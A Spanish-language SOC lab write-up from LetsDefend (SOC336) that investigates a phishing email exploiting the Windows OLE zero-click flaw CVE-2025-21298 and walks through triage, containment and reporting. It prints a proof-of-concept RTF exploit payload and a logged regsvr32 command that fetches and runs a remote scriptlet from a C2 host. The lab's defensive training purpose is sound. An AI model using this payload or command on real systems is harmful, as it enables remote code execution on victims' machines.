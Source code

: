 ```yaml
---
title: Let’s Defend SOC336
image: /assets/img/Anexos/Pasted%20image%2020250407101344-1.png
description: Let’s Defend: SOC336 — Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025–21298)
categories: [Blue Team,LetsDefend]
tags: [soc]
---
```




## Introduction
Estamos dentro de un SOC y nos llega una alerta de un incidente de nivel **crírico** y tenemos que actuar.

### Description

- Name: SOC336
- Goal: Investigar el incidente
- link: [LetsDefend](https://app.letsdefend.io)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/LetsDefend/LetsDefend%20SOC336.pdf)



## Incidente


Una vez recibida la alerta en el SOC creamos un nuevo saco para esta alerta:

![](/assets/img/Anexos/Pasted%20image%2020250407090151-1.png)

### Contexto 
1. Se ha detectado -> Windows OLE Zero-Click RCE Exploitation Detection (CVE-2025–21298)
2. Se trata de un correo electrónico por Outlook.
3. Contiene un adjunto (mail.rtf)
4. La razón desencadenante (malicious RTF attachment identified with known CVE-2025–21298 exploit pattern)


La extensión RTF se refiere al ==formato de archivo Rich Text Format (Formato de Texto Enriquecido)==. Se trata de un formato de archivo que permite abrir y editar textos en varios programas de procesamiento de texto.

CVE-2025-21298 es una **vulnerabilidad de zero-click** in Windows OLE donde el atacante envia un correo malicioso con un adjunto _.rft_. Cuando la víctima abre o visualiza el correo, el atacante puede ejecutar código arbitrario dentro del sistema gracias al _.rft_. 

**Prueba de concepto**

> https://github.com/ynwarcs/CVE-2025-21298

```
{\rtf1{\object\objhtml\objw1\objh1\objupdate\rsltpict{\*\objclass None}{\*\objdata 0105000002000000
0a000000
53746174696344696200
00000000
00000000
04000000
00000000
00000000
05000000
02000000
aa00
02000000
00000000
}
}}

```


**Información Importante para la investigación**

- Usuarios involucrados
- Hashes
- Direcciones IP
- Hostnames
- Ficheros
- Acciones tomadas


### Investigación

Primero acudo a webs de inteligencia para comprobar si el hash es malicioso. Inmediatamente **Virus Total** lo detecta como malicioso y detecta el CVE:

![](/assets/img/Anexos/Pasted%20image%2020250407090747-1.png)

También lo compruebo en el apartado de **Threat Intel** del SOC:

![](/assets/img/Anexos/Pasted%20image%2020250407090934-1.png)


Una vez confirmado que el adjunto es un exploit, hay que entender que ha pasado. Como la entrada del exploit fue via SMTP, voy directo a **Email Security** y comienzo a filtrar:

![](/assets/img/Anexos/Pasted%20image%2020250407091142-1.png)

Tras el filtrado, se reporta el mail que originó el ataque, fue enviado por _projectmanagement@pm.me_ a el usuario _Austin@letsdefend.io_.

![](/assets/img/Anexos/Pasted%20image%2020250407091220-1.png)

El correo es el siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407091301-1.png)

Este correo se hace pasar por el jefe de proyecto del equipo y contiene un título y cuerpo que generan urgencia.

Sabiendo esto, Vamos al apartado **Endpoint Security** y filtramos por Austin para buscar actividades sospechosas y encontramos el desencadenante:

![](/assets/img/Anexos/Pasted%20image%2020250407091442-1.png)

Se ejecuta `OUTLOOK` para visualizar el correo,  y segundos después `cmd` y `regsvr32`.

![](/assets/img/Anexos/Pasted%20image%2020250407103438-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250407091553-1.png)



```powershell
regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll

# regsvr32.exe es una herramienta de línea de comandos que permite registrar y desregistrar controles OLE, como DLL y ActiveX, en el Registro de Windows

```

![](/assets/img/Anexos/Pasted%20image%2020250407091829-1.png)


OUTLOOK.EXE -> cmd.exe -> regsvr32.exe

Ahora podemos confirmar que se ha producido una ejecución de comandos explotando una vulnerabilidad en **Outlook**.  Ahora para obtener más información del servidor C2 (Command al Control) al que se ha hecho la solicitud mirando los logs y confirmar que se ha producido una conexión al C":


![](/assets/img/Anexos/Pasted%20image%2020250407092123-1.png)

Vemos que efectivamente se produjo una solicitud. Ahora el siguiente paso será ponerlo en cuarentena:


![](/assets/img/Anexos/Pasted%20image%2020250407092208-1.png)

Después de la Investigación toca reportar el incidente.

### Reporte

![](/assets/img/Anexos/Pasted%20image%2020250407092346-1.png)

En indicador ponemos "**otro**".

![](/assets/img/Anexos/Pasted%20image%2020250407092407-1.png)

En este apartado indicamos que el malware no fue eliminado ni puesto en curentena en ningún momento por el EDR:

![](/assets/img/Anexos/Pasted%20image%2020250407092446-1.png)

En el apartado análisis de malware indicamos que es malicioso ya que lo comprobamos anteriormente:

![](/assets/img/Anexos/Pasted%20image%2020250407092505-1.png)

Aquí confirmamos que hubo una petición a un C2 y se estableció la conexión:

![](/assets/img/Anexos/Pasted%20image%2020250407092529-1.png)

En los adjuntos podríamos añadir lo siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407092914-1.png)

Por último, en la nota final se podría añadir algo como:

![](/assets/img/Anexos/Pasted%20image%2020250407093225-1.png)